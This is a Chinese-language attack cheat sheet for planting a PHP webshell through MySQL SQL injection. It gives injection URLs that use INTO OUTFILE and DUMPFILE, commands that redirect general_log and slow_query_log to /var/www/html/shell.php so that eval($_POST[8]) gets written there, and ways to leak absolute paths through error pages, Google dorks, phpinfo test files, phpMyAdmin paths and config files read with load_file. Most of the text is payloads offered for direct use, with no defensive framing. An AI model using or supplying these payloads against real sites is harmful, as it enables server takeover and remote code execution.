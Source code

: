 # 文件导出函数GetShell

## 利用条件

- 数据库当前用户为`root`权限
- 知道当前网站的绝对路径
- PHP的GPC为off状态
- 写入的那个歌路径存在写入权限

## 基于联合查询时

```mysql
?id=1 union select 1,'<?php phpinfo();?>',3 into outfile '网站根目录绝对路径'-- qwe
?id=1 union select 1,'<?php phpinfo();?>',3 into dumpfile '网站根目录绝对路径'-- qwe
```

## 非联合查询

```mysql
?id=1 into outfile '网站根目录绝对路径' FIELDS TERMINATED BY '<?php phpinfo();?>'-- qwe
```

这个语句的意思是，导出当前数据表到xxx文件中，数据表中的字段以`<?php phpinfo();?>`分隔

形如：

```
id username password 导出后会变成
id<?php phpinfo();?>username<?php phpinfo();?>password
```

## outfile和dumpfile的区别

`outfile:`

1. 支持多行数据同时导出
2. 使用union联合查询时，要保证两侧查询的列数相同
3. 会在换行符制表符后面追加反斜杠
4. 会在末尾追加换行

`dumpfile:`

1. 每次只能导出一行数据
2. 不会在换行符制表符后面追加反斜杠
3. 不会在末尾追加换行

因此，`dumpfile`函数这个函数来顺利写入二进制文件，当然`into outfile`函数也可以写入二进制文件，但是无法生效（追加的反斜杠会使二进制文件无法生效），当使用`dumpfile`函数时，应该手动添加limit限制来获取不同的行数。

## secure_file_prive

写文件提权，终究是离不开这个配置项：

```
secure_file_prive= ，结果为空的话，表示允许任何文件读写

secure_file_prive=NULL，表示不允许任何文件读写

secure_file_prive=‘某个路径’，表示这个路径作为文件读写的路径

在mysql5.5版本前，都是默认为空，允许读取

在mysql5.6版本后 ,默认为NULL，并且无法用SQL语句对其进行修改。所以这种只能在配置进行修改。
```

查询该参数配置的情况：

```mysql
show global variables like "%secure%";
```

利用sql语句修改配置项（5.6版本以前，临时修改重启失效）：

```mysql
set global secure_file_prive=""
```

`5.6`版本以后，只能利用配置项修改：

![](img/visitFile&sign=663485c2367709ae3dee4da9b50af7d0.png)

# 日志GetShell

## 全局日志Getshell

利用`general_log`，可以将所有到达mysql服务器的sql语句，都记录下来

```mysql
# 查看日志是否开启
show variables like 'general_log';

# 开启日志功能
set global general_log=on;

# 查看文件日志保存位置
show variables like 'general_log_file';

# 设置日志保存位置（getshell的话存放在网站根目录，名为.php）
set global general_log_file='/var/www/html/shell.php';

# 查看日志输出类型 table：将日志存入数据库的日志表中；file：将日志存入文件中
show variables like 'log_output';

# 修改日志存储类型
set global log_output='table/file';
```

GetShell方式：

```mysql
set global geeral_log=on;
set global general_log_file='/var/www/html/shell.php';
select '<?php eval($_POST[8]);?>'
```

## 慢日志GetShell

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中。查看服务器默认时间值方式

```mysql
# 查看服务器默认时间值方式
show global variables like '%long_query_time%'
show global variables like '%long%'

# 查看慢日志参数
show global variable like '%slow%';
```

GetShell方式：

```mysql
# 打开慢日志
set global slow_query_log=on

# 设置慢日志路径
set global slow_query_log_file='/var/www/html/shell.php'

# 记录到日志中的语句
select '<?php @eval($_POST[8]);?>' or sleep(20)
```

# 爆绝对路径的方法

上述的提权方式都离不开知道网站的绝对路径，下面是一些得到绝对路径的方法。

## 单引号爆路径

- 直接在URL后面加单引号，要求单引号没有被过滤(gpc=off)且服务器默认返回错误信息。
   `www.xxx.com/news.php?id=1′`

## 错误参数值爆路径

- 将要提交的参数值改成错误值，比如-1。-99999单引号被过滤时不妨试试。
   `www.xxx.com/researcharchive.php?id=-1`

## Google爆路径

- 结合关键字和site语法搜索出错页面的网页快照，常见关键字有warning和fatal error。注意，如果目标站点是二级域名，site接的是其对应的顶级域名，这样得到的信息要多得多。

```
Site:xxx.edu.tw warning
Site:xxx.com.tw “fatal error”
```

## 测试文件爆路径

- 很多网站的根目录下都存在测试文件，脚本代码通常都是phpinfo()。

```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
```

## phpmyadmin爆路径

- 一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。

```
/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

## 配置文件找路径

- 如果注入点有文件读取权限，就可以手工load_file或工具读取配置文件，再从中寻找路径信息（一般在文件末尾）。各平台下Web服务器和PHP的配置文件默认路径可以上网查，这里列举常见的几个。

```
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

# Linux

为什么要把Linux单独提出来说，因为Linux的权限控制很严格，有的时候即使我们完全控住了MYSQL 但是 没有对网站根目录的读写权限，也会很没有办法去利用上述方法写shell
